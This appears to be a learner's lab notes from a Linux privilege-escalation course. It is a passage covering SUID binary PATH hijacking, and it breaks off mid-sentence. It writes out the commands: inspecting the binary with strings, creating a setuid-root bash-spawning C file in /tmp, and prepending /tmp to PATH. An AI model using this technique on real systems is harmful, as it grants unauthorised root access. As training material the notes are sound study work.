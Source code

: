 [![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/34.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/34.png)
```shell
strings /usr/local/bin/suid-env
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/36.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/36.png)
```shell
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

After

```shell
export PATH=/tmp:$PATH
```

/usr/local/bin/suid-env

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/35.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/35.png)
This works if the command dont call the executableby the full path , but if a executable is called but a full path like this

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/37.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/37.png)
